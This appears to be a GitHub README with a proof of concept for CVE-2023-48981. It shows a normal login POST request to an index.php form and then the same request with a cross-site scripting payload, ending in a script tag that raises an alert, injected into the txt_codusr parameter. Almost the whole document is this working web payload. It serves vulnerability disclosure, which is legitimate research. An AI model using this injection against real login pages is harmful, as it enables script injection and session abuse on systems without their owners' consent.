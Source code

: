 # CVE-2023-48981
POC CVE-2023-48981


## Request Post original for login index.php
```
sessao=f2928a10-95cf-4a6d-9e15-cb75721244fe&txt_tipo_acesso=0&aplEmp=zzz&txt_esqueci_senha=N&txt_conceitoNovoSenha=S&txt_codemp=01&txt_aux_codemp=&txt_tipo_login=1&txt_cpf_cnpj=&txt_apelido_TB=&txt_codusr=1&txt_senha=1&txt_codvend=999999&txt_cpf_cnpj_vend=&txt_senha_1=&txt_codemp_vend=00&txt_esqueci_cpfcnpj=&txt_esqueci_email=&txt_end_prgs=
```

## Resquest Post with payload for index.php
PARAMETER txt_codusr
```
sessao=f2928a10-95cf-4a6d-9e15-cb75721244fe&txt_tipo_acesso=0&aplEmp=zzz&txt_esqueci_senha=N&txt_conceitoNovoSenha=S&txt_codemp=01&txt_aux_codemp=&txt_tipo_login=1&txt_cpf_cnpj=&txt_apelido_TB=&txt_codusr=1'"()%26%25<zzz><script>alert('tristao')</script>&txt_senha=1&txt_codvend=999999&txt_cpf_cnpj_vend=&txt_senha_1=&txt_codemp_vend=00&txt_esqueci_cpfcnpj=&txt_esqueci_email=&txt_end_prgs=
```

![CVE-2023-48981](https://raw.githubusercontent.com/tristao-marinho/CVE-2023-48981/main/Pasted%20image%2020240101095109.png)



